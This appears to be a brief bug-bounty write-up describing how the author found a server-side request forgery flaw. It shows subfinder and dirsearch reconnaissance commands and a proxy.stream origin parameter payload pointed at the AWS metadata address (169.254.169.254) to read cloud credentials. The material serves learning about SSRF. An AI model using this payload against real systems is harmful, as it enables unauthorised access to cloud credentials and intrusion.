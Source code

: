 # My First Case of SSRF Using Dirsearch 🐿️

1. I started by getting all the subdomains and directories of my target using Subfinder
```
subfinder -d target.com | tee target.txt
python3 dirsearch.py -l target.txt --deep-recursive
```
2. I found a URL that was like: 
```
targetconnect-dev.target.com/proxy.stream?origin=https://google.com
```
3. I tried using an Out Of Band Interaction Tester (OOB) like BurpSuite Collaborator and it worked. I received a pingback.
4. I now searched the parameter on Google and found a tweet where someone tried to use the AWS Metadata URL, so I tried using it and it worked.<br>
```
/proxy.stream?origin=http://169.254.169.254/latest/metadata/
```
I was able to view the AWS Metadata credentials.

<br>&nbsp;
## Credit
Based on [Shrirang Diwakar](https://shrirangdiwakar.medium.com/bypassing-403s-like-a-pro-2-100-broken-access-control-66beef4afa8c)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
